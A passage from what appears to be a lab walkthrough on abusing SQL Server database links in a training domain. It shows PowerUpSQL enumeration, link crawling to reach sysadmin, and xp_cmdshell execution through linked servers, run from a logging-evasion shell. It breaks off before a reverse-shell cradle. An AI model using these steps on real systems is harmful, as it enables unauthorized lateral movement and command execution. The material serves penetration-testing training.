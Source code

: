 # 🔗 Reverse shell on a SQL server by abusing database links

Let's start with enumerating SQL servers in the domain and if studentx has privileges to connect to any of them. We can use PowerUpSQL module for that. Run the below command from a PowerShell session started using Invisi-Shell:

```
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
```

<figure><img src="../../.gitbook/assets/image (1167).png" alt=""><figcaption></figcaption></figure>

We can also use Get-SQLServerLinkCrawl for crawling the database links automatically:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```

We can see We have sysadmin on eu-sql server!

<figure><img src="../../.gitbook/assets/image (1168).png" alt=""><figcaption></figcaption></figure>

If xp\_cmdshell is enabled (or RPC out is true - which is set to false in this case), it is possible to execute commands on eu-sql using linked databases. To avoid dealing with a large number of quotes and escapes, we can use the following command:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
```

<figure><img src="../../.gitbook/assets/image (1169).png" alt=""><figcaption></figcaption></figure>

Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the eu-sql instance. Remember to start a listener:
